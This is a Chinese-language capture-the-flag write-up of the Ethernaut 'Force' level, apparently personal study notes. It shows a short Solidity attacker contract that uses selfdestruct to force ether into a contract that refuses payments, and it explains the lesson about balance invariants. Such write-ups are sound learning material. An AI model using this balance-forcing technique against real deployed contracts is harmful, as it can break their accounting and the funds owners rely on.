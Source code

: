 # 07-Force

日期: 19/08/2024
漏洞小结: Balance问题
简单明了: 通过selfdestruct来强行转Balance
难易: 简单

# 问题描述

Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

# 攻击思路

题目就是一个空白的函数，没有任何内容

通过普通的payable函数肯定是没办法做到的，因为目标函数没有`receive`以及`fallback`

所以只能调用`selfdestruct`了

- 目标是个地址，不是个contract
- 目标地址需要被cast成`payable`

攻击函数的constructor也需要是`payable`，这样在创建的时候可以存入一点ether，在共计的时候可以传给目标

# 攻击方式

代码如下，上面是Force函数

```solidity
contract AttackForce{
    Force force;

    constructor(address _force) payable{
        force = Force(_force);
    }

    function Attack() public payable{
        selfdestruct(payable(address(force)));
    }
}
```

# Ethernuat总结

In solidity, for a contract to be able to receive ether, the fallback function must be marked `payable`.

However, there is no way to stop an attacker from sending ether to a contract by *self destroying*. **Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.**

# 小白的思考

两个点，第一个点比较蠢，但是的确值得记录一下。

刚开始的时候不知道如何去查看一个合约含有的balance，一直在想contract.什么的。用下面这个命令就可以了，显示结果为wei

```bash
await web3.eth.getBalance(contractAddress);
```

另一个点是在编译的时候告警（selfdestruct）了（以为编译失败），但不是错误，下面是GPT的意见和建议：

你遇到的这个警告是因为 `selfdestruct` 在最新的以太坊硬分叉（Cancun）中发生了变化。根据 EIP-6780，`selfdestruct` 现在不再删除合约的代码和数据，只是将合约的 ETH 转移给指定的受益人，除非它是在合约创建的同一交易中执行的。

虽然这个更改不会影响我们解决这个问题的基本思路，但它提醒我们在使用 `selfdestruct` 时要小心，因为未来可能会有进一步的限制或修改。

### 解决方案：

你仍然可以按照原计划使用 `selfdestruct` 来完成这个 Ethernaut 题目。因为这个挑战的核心在于将 ETH 转移到目标合约，而 `selfdestruct` 依旧能够做到这一点，即便在硬分叉之后。你可以暂时忽略这个警告。

以下是步骤：

1. 编写和部署攻击合约，确保在部署时传入一定数量的 ETH。
2. 使用 `selfdestruct` 将 ETH 转移到目标合约。

### 关于警告的解释：

- `selfdestruct` 的行为变化主要是为了防止一些旧的攻击模式，并提升 EVM 的灵活性。
- 对于这种 CTF 类型的挑战，你不必担心这个警告。只要能够完成目标即可。